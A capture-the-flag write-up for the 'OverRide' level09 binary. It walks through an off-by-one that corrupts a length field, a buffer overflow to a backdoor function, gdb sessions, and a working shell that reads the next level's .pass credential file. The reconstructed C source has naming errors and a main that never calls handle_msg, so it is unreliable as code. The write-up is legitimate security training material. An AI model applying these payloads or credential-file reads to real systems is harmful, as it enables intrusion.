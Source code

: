## level09 (1 byte can make a difference)
```clike=
struct my_struct {
    char    msg[140];
	char    username[40];
	int    msglen;
};

void set_msg(struct my_struct* var1)
{
    char temp[1024];
    
    memset(temp, 0, 128);
    puts(">: Msg @Unix-Dude");
    printf(">>: ");
    fgets(temp, 1024, stdin);
    strncpy(var1->message, temp, var1->msglen);
}

void set_username(struct my_struct* var1)
{
    char temp[140]; // 0x90 - 0x4
    int count;
    
    memset(temp, 0, 16);
    puts(">: Enter your username");
    printf(">>: ");
    fgets(temp, 120, stdin);
    count = 0;
    while (count < 41 && temp[count]) {
		var1->username[count] = name[count];
		count +=1;
	}
}

void handle_msg()
{
    struct my_struct msg;
    
    memset(msg.username, 0, 40);
    msg.msglen = 140;
    set_username(&msg);
    set_msg(&msg);
    puts(">: Msg sent!");
}

int main()
{
        puts("--------------------------------------------\n|   ~Welcome to l33t-m$n ~    v1337        |\n--------------------------------------------");
    return 0;
}
```
Looking at the code, there may be a chance at overflowing `var1->msg` since `strncpy(var1->message, temp, var1->msglen);` does not copy the nullbyte over. However, there are no operations after that action so I dont this it affects the program.

However upon closer inspection, I noticed that in `set_username`, the while loop is ran 41 times instead of 40, which will cause an overwrite on the first byte of `var1->msglen` To verify this, we can look into GDB. As we can see, the first image contains the original value in the rdx register, but the second image shows the overwritten value.

```
# prep input
python -c "print 'B' * 41 + '\n' + 'i' * 100" > /tmp/level09

# launch gdb
gdb level09
b *0x00005555555549c6
lay asm
focus cmd
tty /dev/pts/1
set disassembly-flavor intel
run < /tmp/level09
```
![image](https://hackmd.io/_uploads/B13p_0-Dp.png)

![image](https://hackmd.io/_uploads/H1XHuRWwp.png)

Now, if we change rdx to `0xff` or 255, we should be able to overflow the message variable later when we strncpy in `set_msg`. 

```
# prep input
python -c "print '\xff' * 41 + '\n' + 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4'" > /tmp/level09

# launch gdb
gdb level09
b *0x55555555491f
b *0x555555554924
lay asm
focus cmd
tty /dev/pts/1
set disassembly-flavor intel
run < /tmp/level09
```

We did infact override the EIP, and the offset was [200](https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/?eip-length=100&eip-output-string=Output+string+goes+here). Now we add the address of `secret_backdoor` and we should be finished.

```
# prep input
python -c "print '\xff' * 41 + '\n' + 'B' * 200 + '\x00\x00\x55\x55\x55\x55\x48\x8c'[::-1]" > /tmp/level09

# launch gdb
gdb level09
b *0x55555555491f
b *0x555555554924
lay asm
focus cmd
tty /dev/pts/1
set disassembly-flavor intel
run < /tmp/level09
```

```
level09@OverRide:~$ (python -c "print '\xff' * 41 + '\n' + 'B' * 200 + '\x00\x00\x55\x55\x55\x55\x48\x8c'[::-1]" ; cat ) | ./level09 
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, �����������������������������������������>: Msg @Unix-Dude
>>: >: Msg sent!
/bin/sh
whoami
end
pwd
/home/users/level09
cat /home/users/end/.pass
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE

```
The password for the end user is `j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE`
